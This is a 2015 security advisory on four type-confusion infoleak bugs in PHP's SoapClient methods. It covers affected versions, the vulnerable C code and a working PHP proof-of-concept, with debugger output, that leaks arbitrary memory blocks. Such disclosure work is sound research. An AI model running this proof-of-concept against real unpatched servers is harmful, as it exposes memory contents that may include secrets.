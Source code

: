 # Type Confusion Infoleak Vulnerabilities in SoapClient
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.3.1 - Release Date: 2015.3.20
 
> Four type confusion vulnerabilities were discovered in SoapClient object's some methods that can be abused for leaking arbitrary memory blocks.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.7  
Affected is PHP 5.5 < 5.5.23  
Affected is PHP 5.4 < 5.4.39  
Affected is PHP 5.3 <= 5.3.29

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

``` c
PHP_METHOD(SoapClient, __getLastRequest)
{
	zval **tmp;
	
	if (zend_parse_parameters_none() == FAILURE) {
		return;
	}

	if (zend_hash_find(Z_OBJPROP_P(this_ptr), "__last_request", sizeof("__last_request"), (void **)&tmp) == SUCCESS) {
		RETURN_STRINGL(Z_STRVAL_PP(tmp), Z_STRLEN_PP(tmp), 1);
	}
	RETURN_NULL();
}
```
 
The Z_STRVAL_P macro lead to looking up an arbitrary valid memory address, and return a string via a doubles-type or integer-type zval that start from this memory address. If the memory address is an invalid memory position, it should result in a crash.

The Z_STRLEN_PP macro for accessing str.len member from the zvalue_value union, and return string's length. For integers the Z_STRLEN_PP macro is generally return 1, so a integer-type ZVAL can collide a string of length 1. The size of a double is 8 bytes, so on 32bit system a double-type ZVAL can collide a string of any length

The very similar bugs exists in SoapClient object's __getLastResponse(), __getLastRequestHeaders(), and __getLastResponseHeaders() methods.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.3 installation of PHP 5.5.14.

``` php
<?php

$z = new SoapClient(null, array('location' => "", 'uri' => ""));
$str = '';
for ($i = 0x100351e3d; $i < 0x100351e3d + 25; $i++) {
    $z->__last_request = $i;
    $str .= $z->__getLastRequest();
}
var_dump($str);

?>
```

Test the PoC on the command line, then output some memory blocks:

``` shell
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run test.php
Process 6366 launched: '/usr/bin/php' (x86_64)
string(25) "UH??AWAVSPI??I??H????
                                 H"
Process 6366 exited with status = 0 (0x00000000) 
```

